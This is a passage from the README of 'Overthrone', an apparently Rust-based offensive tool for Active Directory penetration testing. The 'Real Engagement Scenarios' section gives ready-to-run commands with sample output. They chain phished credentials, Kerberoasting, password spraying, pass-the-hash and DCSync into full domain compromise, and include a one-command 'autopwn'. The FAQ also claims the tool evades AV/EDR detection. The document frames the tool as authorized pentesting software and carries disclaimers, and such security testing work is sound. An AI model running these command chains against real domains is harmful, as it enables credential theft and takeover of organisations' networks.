| `SQLAdmin` | 3 | SQL Server admin — `xp_cmdshell` is a "feature" |
| `TrustedBy` | 4 | Domain trust — cross-domain, requires more setup |
| `HasSpn` | 5 | Kerberoastable — offline cracking required. GPU time. |
| `DontReqPreauth` | 5 | AS-REP roastable — offline cracking required |
| `Custom(*)` | 10 | Unknown/custom — high cost, manual analysis needed |

## Protocol Stack

What Overthrone speaks fluently. Six languages, zero accent:

| Protocol | Crate | Used for |
|---|---|---|
| **LDAP/LDAPS** | `overthrone-core` | Domain enumeration, user/group/GPO/trust queries, ACL reading. AD's diary. |
| **Kerberos** | `overthrone-core` | Authentication, TGT/TGS requests, ticket forging, roasting. The three-headed dog of authentication. |
| **SMB 2/3** | `overthrone-core` | File operations, share enumeration, lateral movement, PtH. The universal remote of Windows networking. |
| **NTLM** | `overthrone-core` | NT hash computation, NTLMv2 challenge-response, Pass-the-Hash. The protocol that refuses to die. |
| **MS-DRSR** | `overthrone-core` | DCSync — replicating credentials via Directory Replication Service. Politely asking the DC for all credentials. The DC politely complies. |
| **MS-SAMR** | `overthrone-core` | SAM Remote — password changes, account enumeration |

Everything is implemented in Rust. No shelling out to `impacket`, no calling `mimikatz.exe`, no loading .NET assemblies, no Wine, no prayers to the Python dependency gods. Pure Rust protocol implementations talking raw bytes over the wire. The borrow checker suffered greatly so your engagements could prosper.

## Examples — Real Engagement Scenarios

### Scenario 1: "I just got a foothold"

You phished `jsmith` and have their creds. The phishing email was about a mandatory password reset. The irony is palpable.

```bash
# Enumerate the domain — ask AD to tell you everything about itself
ovt enum --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Phished123!' --full

# Find paths to DA — how many hops between "low privilege user" and "game over"?
ovt graph --path-to-da jsmith

# Output:
# Path 1 (cost: 6, hops: 3):
#   [1] JSMITH --[MemberOf]--> IT-SUPPORT
#   [2] IT-SUPPORT --[GenericAll]--> SVC-BACKUP
#   [3] SVC-BACKUP --[AdminTo]--> DC01$
#
# Three hops. Three. The CISO will need to sit down.

# Kerberoast SVC-BACKUP (it has an SPN and a password from 2019)
ovt roast kerberoast --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Phished123!'
# Crack with hashcat... *GPU noises*
# Got SVC-BACKUP password: Backup2019!
# Of course it's Backup2019. Of course it is.

# PtH to DC01 as SVC-BACKUP
ovt move pth --target dc01.corp.local --domain corp.local -u SVC-BACKUP --hash <cracked_hash>

# DCSync everything — every hash in the domain, delivered to your doorstep
ovt forge dcsync --dc 10.10.10.1 --domain corp.local -u SVC-BACKUP -p 'Backup2019!'

# Generate report — the CISO will print this and frame it as a reminder
ovt report --format pdf --executive -o corp-local-report.pdf
```

### Scenario 2: "Spray and pray (but professionally)"

```bash
# Extract usernames from enumeration
ovt enum --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Pass' -o enum.json
# jq '.users[].sam_account_name' enum.json > users.txt

# Spray the classic — Season + Year + Special Character
ovt spray --dc 10.10.10.1 --domain corp.local --users users.txt --password 'Corp2026!'
# [+] Valid: mrodriguez:Corp2026!
# [+] Valid: pjohnson:Corp2026!
# 2 out of 847 users. That's a 0.2% hit rate. That's 2 too many.

# Check who has the juiciest access
ovt graph --path-to-da mrodriguez    # 5 hops. Meh.
ovt graph --path-to-da pjohnson      # 2 hops. Oh hello.
# pjohnson it is. Sorry Patricia, nothing personal.
```

### Scenario 3: "Full autopwn, I have a meeting in an hour"

```bash
ovt autopwn --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Go get coffee. Actually, get two. One for you and one for your impending
# promotion after the client sees this report.
#
# Overthrone will:
# 1. Enumerate everything
# 2. Build attack graph
# 3. Find shortest path to DA
# 4. Execute the path (roast, spray, PtH, whatever works)
# 5. DCSync
# 6. Generate PDF report
#
# Come back to: engagement-report.pdf
# Time elapsed: less than your coffee order took
```

## FAQ

**Q: Is this legal?**
A: With explicit written authorization (scope document, rules of engagement, the works) — absolutely. Without it — absolutely not. This is a professional penetration testing tool, not a "hack my ex's Facebook" tool. Get a contract. Be professional. Wear a hoodie ironically, not literally. The difference between a pentester and a criminal is a signed document and a really good PowerPoint presentation.

**Q: How is this different from BloodHound?**
A: BloodHound is incredible for visualization and path analysis. Overthrone uses a similar graph model but adds the exploitation, lateral movement, and persistence phases. Think of BloodHound as Google Maps and Overthrone as Google Maps + the getaway car + the safe house + a guy who changes your license plates. BloodHound shows you the path. Overthrone walks it.

**Q: How is this different from Impacket?**
A: Impacket is a legendary collection of Python protocol implementations and we have nothing but respect for it. Overthrone reimplements the same protocols in Rust with a unified framework, autonomous planning, and integrated reporting. Impacket is the toolbox. Overthrone is the factory that uses the toolbox, builds the product, packages it, and ships the report. Also, no `pip install` failures at 2 AM.

**Q: Why Rust?**
A: Memory safety without a garbage collector. Single static binary. Native performance. No Python dependency hell. No "it works on my machine." No Wine. No .NET runtime. No "please install Java 8 specifically, not 11, not 17, 8." Also, explaining Rust lifetime errors to a rubber duck at 4 AM during an engagement builds character. We have a LOT of character.

**Q: Will this get caught by AV/EDR?**
A: Overthrone uses native protocol implementations (LDAP, Kerberos, SMB) that look identical to legitimate Windows traffic. It doesn't inject into processes, doesn't use PowerShell, doesn't drop .NET assemblies, and doesn't call suspicious Win32 APIs. It speaks the same language as a Windows machine because it literally implements the same protocols. That said, if you DCSync from a Linux box at 3 AM, any decent SOC will notice the existential crisis in their SIEM dashboard. Use responsibly.

**Q: Does it run on Linux?**
A: Linux is the *primary* platform. It attacks Windows Active Directory *over the network*. You don't need to be on Windows to speak Windows protocols. Same way you don't need to be a fish to go fishing.

**Q: Does it need Wine or Mimikatz or .NET?**
A: No. No. And no. Every protocol is native Rust. The whole point was to eliminate those dependencies. If you find yourself installing Wine to run Overthrone, something has gone terribly wrong and you should contact us immediately. Or a priest.

**Q: Can I extend it with custom modules?**
A: The workspace architecture makes it straightforward. Each crate has a clean public API. Write your own exploitation module in `overthrone-reaper`, add a lateral movement technique in `overthrone-crawler`, or build a custom reporting template in `overthrone-scribe`. PRs welcome. Memes about Active Directory misconfigurations are also welcome.

**Q: Does this work on Windows domains only?**
A: Active Directory is a Windows technology, so yes, the targets are Windows domains. But Overthrone itself runs on Linux, macOS, and Windows. Most pentesters run it from Kali, which is poetic justice — a free Linux distro dismantling enterprise Windows infrastructure.

**Q: My lab DC isn't responding to LDAP queries.**
A: Checklist: (1) you can reach port 389/636, (2) your user has domain credentials not local ones, (3) the domain name is correct, (4) you didn't fat-finger the password, (5) the DC is actually a DC and not a printer. We've all been there. (6) It's plugged in. Don't skip this one.

**Q: What's the difference between `overthrone` and `ovt`?**
A: Nothing. Same binary. Same code. `ovt` is just shorter. Like `ls` vs `list-directory-contents`. We added it because typing `overthrone` 47 times during an engagement gave someone carpal tunnel. (It was us. It gave us carpal tunnel.)

## Contributing

PRs welcome. Issues welcome. Memes about Active Directory misconfigurations are especially welcome. If your PR includes a pun in the commit message, it gets reviewed first.

- [x] LDAP enumeration (users, groups, computers, trusts, GPOs, OUs)
- [x] Kerberos protocol implementation
- [x] SMB 2/3 client
- [x] NTLM hash computation (NT, NTLMv2, session keys, challenge-response)
- [x] MS-DRSR (DCSync) protocol
- [x] Attack graph engine with Dijkstra pathfinding
- [x] Kerberoasting & AS-REP roasting
- [x] Pass-the-Hash lateral movement
- [x] Report generation (PDF, HTML, JSON)
- [x] Autonomous attack planning (overthrone-pilot)
- [x] `ovt` shorthand binary
- [ ] ADCS abuse (ESC1-ESC8) — certificates are the new hashes
- [ ] Shadow Credentials attack
- [ ] SCCM/MECM exploitation
- [ ] Cross-forest trust abuse
- [ ] Interactive TUI with live attack graph visualization
- [ ] Plugin system for custom modules
- [ ] Cobalt Strike / Sliver C2 integration

## Star History

If you've read this far — all the way to the bottom of this absurdly long README — you're legally obligated to star the repo. It's in the MIT license. (It's not in the MIT license. But it should be.)

**[Star this repo](https://github.com/Karmanya03/Overthrone)** — every star adds 0.001 damage to the attack graph. (Citation needed.)

## Disclaimer

This tool is for **authorized security testing only**. Using Overthrone against systems without explicit written permission is illegal, unethical, and will make your parents disappointed. The authors are not responsible for misuse. If you use this tool without authorization, that's on you, your lawyer, and whoever has to explain to the judge what "DCSync" means while the jury stares blankly.

Always:
- Get written authorization before testing
- Define scope and rules of engagement
- Don't break things you weren't asked to break
- Report everything you find, especially the embarrassing stuff
- Remember that somewhere, a sysadmin set `Password1` on a service account and hoped nobody would notice

## License

MIT — use it, modify it, learn from it, build on it. Just don't be evil with it. And if you do something cool, tell us about it so we can pretend we helped.

---

<p align="center">
  <sub>Built with Rust, mass amounts of mass-produced instant coffee, and a deep personal grudge against misconfigured ACLs.</sub><br/>
  <sub>Every throne falls. The question is whether you find out from a pentester or from a ransomware note.</sub><br/>
  <sub>We prefer the first option. Your insurance company does too.</sub>
</p>
